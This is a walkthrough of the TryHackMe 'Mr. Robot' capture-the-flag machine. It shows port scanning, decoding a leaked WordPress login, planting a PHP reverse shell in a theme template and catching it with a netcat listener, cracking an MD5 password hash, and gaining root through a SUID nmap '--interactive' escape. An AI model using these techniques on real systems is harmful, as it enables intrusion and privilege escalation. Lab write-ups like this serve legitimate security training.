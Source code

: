 # THM - Mr. Robot CTF

#### Ip: 10.10.67.233
#### Name: Mr. Robot CTF
#### Rating: Medium

----------------------------------------------------------------------

![robot.jpeg](../assets/mr_robot_ctf_assets/robot.jpeg)

```text
Can you root this Mr. Robot styled machine? This is a virtual machine meant for beginners/intermediate users. There are 3 hidden keys located on the machine, can you find them?
```

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also user the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/THM/Mr_Robot_CTF]
└─$ sudo nmap -p-  --min-rate 10000 10.10.67.233
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-09 10:18 CDT
Nmap scan report for 10.10.67.233
Host is up (0.13s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https

Nmap done: 1 IP address (1 host up) scanned in 13.68 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/THM/Mr_Robot_CTF]
└─$ sudo nmap -sC -sV -T4 10.10.67.233 -p 22,80,443
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-09 10:19 CDT
Nmap scan report for 10.10.67.233
Host is up (0.12s latency).

PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
443/tcp open   ssl/http Apache httpd
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-title: Site doesn't have a title (text/html).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.74 seconds
```

Interesting that SSH is being returned as closed here.

Checking out the site we find an interactive page:

![site.png](../assets/mr_robot_ctf_assets/site.png)

Trying out `robots.txt` we find a couple entries:

![robots.png](../assets/mr_robot_ctf_assets/robots.png)

Heading to http://10.10.67.233/key-1-of-3.txt we find the first flag:

![key1.png](../assets/mr_robot_ctf_assets/key1.png)

We can also download the file fsociety.dic, which appears to be a wordlist:

```text
┌──(ryan㉿kali)-[~/THM/Mr_Robot_CTF]
└─$ head fsocity.dic
true
false
wikia
from
the
now
Wikia
extensions
scss
window
```

If we scan for more directories, we're tipped of that we're dealing with WordPress here.

![ferox.png](../assets/mr_robot_ctf_assets/ferox.png)

Feroxbouster also finds a `/license` directory:

![license.png](../assets/mr_robot_ctf_assets/license.png)

and if we scroll down we find the text:

```text
do you want a password or something?

ZWxsaW90OkVSMjgtMDY1Mgo=
```

This looks like base64, which we can decode in the terminal:

```text
┌──(ryan㉿kali)-[~/THM/Mr_Robot_CTF]
└─$ echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d
elliot:ER28-0652
```
Nice! We have some credentials. Lets use these to login to the WordPress site:

![login.png](../assets/mr_robot_ctf_assets/login.png)

### Exploitation

Once logged in we can navigate to Appearance > Themes, and from there we can copy in a PHP reverse shell into the 404 template:

![404.png](../assets/mr_robot_ctf_assets/404.png)

Saving that and navigating to http://10.10.67.233/404.php we catch a reverse shell back:

```text
┌──(ryan㉿kali)-[~/THM/Mr_Robot_CTF]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.6.61.45] from (UNKNOWN) [10.10.67.233] 44433
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 15:47:17 up 33 min,  0 users,  load average: 0.00, 0.02, 0.16
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
daemon
$ hostname
linux
$ python3 -c 'import pty;pty.spawn("/bin/bash")'

daemon@linux:/$
```

Trying to grab the second key from the `robot` directory we get a permission denied:

```text
daemon@linux:/home$ ls
robot
daemon@linux:/home$ cd robot
daemon@linux:/home/robot$ ls
key-2-of-3.txt	password.raw-md5
daemon@linux:/home/robot$ cat key-2-of-3.txt 
cat: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$ cat password.raw-md5 
robot:c3fcd3d76192e4007dfb496cca67e13b
```

But we did find a potential password. Lets crack that using crackstation:

![crack.png](../assets/mr_robot_ctf_assets/crack.png)

Cool, we can now use the `su robot` command and grab the second key:

![key2.png](../assets/mr_robot_ctf_assets/key2.png)

### Privilige Escalation

Lets transfer LinPEAS over to the target to help with enumeration:

![transfer.png](../assets/mr_robot_ctf_assets/transfer.png)

LinPEAS finds that the SUID bit is set for Nmap. This should make for an easy privesc:

![suid.png](../assets/mr_robot_ctf_assets/suid.png)

Lets head over to https://gtfobins.github.io/ and search for Nmap:

![gtfo.png](../assets/mr_robot_ctf_assets/gtfo.png)

Cool, this should work for us:

```text
robot@linux:/tmp$ nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
# whoami
root
# id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
```

All that's left to do is grab the final key:

![key3.png](../assets/mr_robot_ctf_assets/key3.png)

Thanks for following along!

-Ryan

-----------------------------------------------------------------------------
